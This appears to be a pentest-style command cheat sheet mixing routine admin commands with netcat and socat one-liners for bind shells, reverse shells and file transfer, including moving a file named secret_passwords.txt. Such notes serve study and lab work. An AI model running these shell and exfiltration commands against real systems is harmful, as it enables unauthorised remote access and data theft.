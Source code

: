 ### Show network connections
netstat -natup  
ss -natup

### Copy file from remote machine to local tmp
scp john@localhost:/var/tmp/CopyMe.txt /tmp  
scp [OPTION] [user@]SRC_HOST:]file1 [user@]DEST_HOST:]file2

### echo current shell
echo $SHELL

### echo environmental variable
env

### NC transfering files
```
nc -lvnp 6666 > incoming.txt
nc -nv 192.168.65.61 6666 < incoming.txt
```

### NC bind shell
```
nc -nlvp 4444 -e cmd.exe
nc -nv 10.11.0.22 4444
```

### NC reverse shell
```
nc -nlvp 4444
nc -nv 10.11.0.22 4444 -e /bin/bash
```

### Socat connect remote machine
```
socat - TCP4:ip-address:80
```

### Socat transfer files
```
sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt  
socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create
```

### Socat reverse shell
```
socat -d -d TCP4-LISTEN:443 STDOUT
socat TCP4:10.11.0.22:443 EXEC:/bin/bash
```

### FTP(permitted commands:ls,mkdir,put file, get file)
```
anonymous login: ftp ip; username:anonymous;password:blank; 
ascii mode: ascii
binary mode: bin
```

### IPTables
```
sudo iptables -L (show iptables) --line-numbers(optional)
Append a rule to the INPUT chain for a source network of 192.168.1.0/24 for all protocols: sudo iptables -s 192.168.1.0/24 -p all -A(append)/D(delete)/I(insert) INPUT
sudo iptables -s 127.0.0.1 -d 127.0.0.1 -A INPUT
sudo iptables -s 192.168.1.37 -p tcp -A INPUT
sudo iptables -D INPUT 5(linenumber)
```

